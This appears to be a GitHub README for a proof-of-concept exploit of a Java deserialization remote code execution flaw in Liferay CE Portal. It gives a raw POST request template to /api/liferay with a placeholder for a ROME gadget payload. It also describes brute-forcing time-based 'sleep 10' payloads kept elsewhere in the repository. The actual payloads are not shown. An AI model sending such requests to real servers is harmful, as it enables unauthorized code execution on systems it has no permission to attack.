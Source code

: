 # Liferay-CE-Portal-Java-Deserialization
This repo contains PoC for the remote code execution vulnerability of Liferay CE Portal!

# Payloads
I already shared payloads in repo. You must find the right syntax by brute-force method.Payloads I share are for time-based proof of concept (sleep 10). The application may not always output the command. That's why you should try time-based payload while doing PoC.

# Proof Of Concept

POST /api/liferay HTTP/1.1

Host: TARGET  

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Connection: close


ROME-PAYLOAD-FILE

# Example PoC
